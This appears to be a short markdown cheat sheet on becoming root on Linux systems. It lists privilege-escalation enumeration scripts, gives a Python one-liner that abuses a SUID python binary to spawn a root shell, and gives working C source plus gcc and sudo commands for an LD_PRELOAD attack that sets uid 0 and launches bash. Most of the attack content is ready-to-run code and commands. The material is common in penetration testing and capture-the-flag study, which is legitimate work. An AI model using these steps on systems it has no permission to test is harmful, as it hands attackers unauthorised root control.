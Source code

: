 # Becoming root

To escalate privileges you need to find vulnerabilities in the target system.
Find this with any of these scripts:

- `sudo -l`
- [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
- [linux-exploit-suggester](https://raw.githubusercontent.com/knarkzel/linux-exploit-suggester/master/linux-exploit-suggester.sh)

## Python binary

If you found a `python` binary with SUID, run following to become root:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## LD_PRELOAD

You can abuse LD_PRELOAD to become root if you can execute a binary
with SUID-bit and `gcc` is installed.

Open file and paste malicous C-code:

```bash
cd /tmp
nano shell.c
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Compile it as dynamic library and set `<BINARY>` to an executable with SUID:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=$PWD/shell.so <BINARY>
```

For more details, see [Dynamic linker tricks: Using LD_PRELOAD to cheat, inject features and investigate programs](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)